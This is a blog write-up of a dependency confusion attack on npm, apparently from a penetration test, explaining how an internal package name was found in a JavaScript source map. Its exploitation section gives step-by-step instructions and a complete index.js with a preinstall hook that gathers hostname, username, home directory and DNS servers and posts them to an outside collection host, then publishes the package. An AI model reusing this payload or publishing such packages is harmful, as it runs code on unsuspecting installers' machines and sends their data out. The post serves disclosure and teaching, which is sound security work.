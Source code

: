 ```yaml
---
title: "Dependency Confusion Attack: A Route to RCE"
date: 2023-08-31 14:00:00 +0900
categories: [web]
tags: [web, rce]
comments: false

image:
  path: https://owasp.org/Top10/assets/TOP_10_logo_Final_Logo_Colour.png
  

  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Responsive rendering of Chirpy theme on multiple devices.
---
```



Hello, amazing hackers! Today, I'm explaining one of my recent findings: the dependency confusion attack and how it can lead to remote code execution. This vulnerability was discovered during a private pen-test engagement.

---

### What is Dependency Confusion?

* A Dependency Confusion attack or supply chain substitution attack occurs when a software installer script is tricked into pulling a malicious code file from a public repository (e.g. NPM, PIP, RUBYGEMS, MVN etc.) instead of the intended file of the same name from an internal repository. The attacker can upload a package with a higher version number to the public repository.

* In this writeup, we are focusing on the **NPM** package dependency. The Dependency confusion vulnerability was discovered by [Alex Brisan](https://twitter.com/alxbrsn) and it is explained very in-depth in his [writeup](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610).

### Discovery

* The primary use case of the application was to analyze financial data submitted by users. During recon, I always prefer to manually review JavaScript files. While going through the HTTP requests related to JS files in Burp Suite, I observed an **app.randomnumbers.js.map** (source map) file.

* Generally, source map files are used for debugging purposes by developers. It is mapping between minified JS files and their original source JS files. I started reviewing the JS source map file and discovered some Node.js packages by searching for keywords such as `import`, `require`, and `node_modules`.

```javascript
//app.randomnumber.js.map
import {
    NameSpaces
}
from '../constants/namespaces';
import store from '../redux-store/store';
const { Trackevaluator } = require('ORGNAME-trackevaluator'); // Here ORGNAME indicates company name
const Context = require('./context').Context;
const ReferralContext = require('./referral.context').ReferralContext;
const evaluate = new Trackevaluator();
const camelize = (obj) => _.transform(obj, (acc, value, key, target) => {
    const camelKey = _.isArray(target) ? key : _.camelCase(key);
     acc[camelKey] = _.isObject(value) ? camelize(value) : value;
});
```
* During the analysis of the file, a package named `ORGNAME-trackevaluator` was found, as shown in the code snippet above. While searching this package on the [npmjs.com](https://www.npmjs.com/) gave 0 results, indicating a potential vulnerability to a dependency confusion attack.

![nopackagenpm](/assets/img/NPM1.png)
_package not found_

> NPM packages can also be found in the **package.json** and **package-lock.json** files. 
{: .prompt-tip }
* Instead of manually checking each package, we can use the tool called [confused](https://github.com/visma-prodsec/confused) to identify packages that are not hosted on public repositories.


### Exploitation

1. Create a package using `npm init` command. Make sure to provide higher version number during creation process of the package. 
2. In the **package.json** file, add the command `"preinstall" : "node index.js"` under `"scripts"` parameter as shown in below snippet.

    ![package.json_codesnippet](/assets/img/NPM1.png)
    _package.json file_

3. Create **index.js** file with mentioned below code. Make sure to change the hostname with your burpcollaborator or pipedream domain in the code.

```javascript
//index.js
//author:- whitehacker003@protonmail.com
const os = require("os");
const dns = require("dns");
const querystring = require("querystring");
const https = require("https");
const packageJSON = require("./package.json");
const package = packageJSON.name;

const trackingData = JSON.stringify({
    p: package,
    c: __dirname,
    hd: os.homedir(),
    hn: os.hostname(),
    un: os.userInfo().username,
    dns: dns.getServers(),
    r: packageJSON ? packageJSON.___resolved : undefined,
    v: packageJSON.version,
    pjson: packageJSON,
});

var postData = querystring.stringify({
    msg: trackingData,
});

var options = {
    hostname: "eoty85f2nvs15dudw.m.pipedream.net", //replace burpcollaborator.net with Interactsh or pipedream
    port: 443,
    path: "/",
    method: "POST",
    headers: {
        "Content-Type": "application/x-www-form-urlencoded",
        "Content-Length": postData.length,
    },
};

var req = https.request(options, (res) => {
    res.on("data", (d) => {
        process.stdout.write(d);
    });    
});

req.on("error", (e) => {
    // console.error(e);
});

req.write(postData);
req.end();
```

{:start="4"}
4. Publish the package using `npm publish` command. Verify the published package on the npm public repository.

    ![npm1](/assets/img/NPM1.png)
    _package is hosted on the npm website_

5. The preinstall script will execute `node index.js` command. Once package is installed on the system.

* After sometime of uploading the package, I received pingbacks containing the **hostname**, **directory**, **IP address**, and **username** from many systems on my server. This was fixed quickly by the developers, once it was reported.

![npmpingback](/assets/img/NPM1.png)
_remote code execution_


### Impact

* A Dependency Confusion attack, whether opportunistic or targeted, can result in widespread infections among a vendor's customers. This can empower attackers to execute unauthorized access, steal data, deploy ransomware which disrupt operations.

### References

* [Dependency Confusion: How I Hacked Into Apple, Microsoft and Dozens of Other Companies](https://medium.com/@alex.birsan/dependency-confusion-4a5d60fec610)

* [Dependency Confusion](https://dhiyaneshgeek.github.io/web/security/2021/09/04/dependency-confusion/)

* [Dependency Confusion Attack – What, Why, and How?](https://redhuntlabs.com/blog/dependency-confusion-attack-what-why-and-how/)

